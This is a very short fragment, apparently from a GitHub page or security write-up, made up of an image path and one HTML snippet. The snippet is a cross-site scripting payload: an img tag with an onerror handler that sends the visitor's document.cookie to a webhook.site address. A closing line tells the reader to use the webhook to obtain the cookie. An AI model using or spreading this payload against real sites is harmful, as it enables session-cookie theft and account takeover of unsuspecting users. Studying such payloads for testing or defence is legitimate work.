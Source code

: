 ```html
<img src=x onerror="new Image().src='https://webhook.site/5f53ba4e-xxxx-xxxx-xxxx-xxxxxxxxxxxx?c='+document.cookie">
```

Use webhook to obtain the cookie



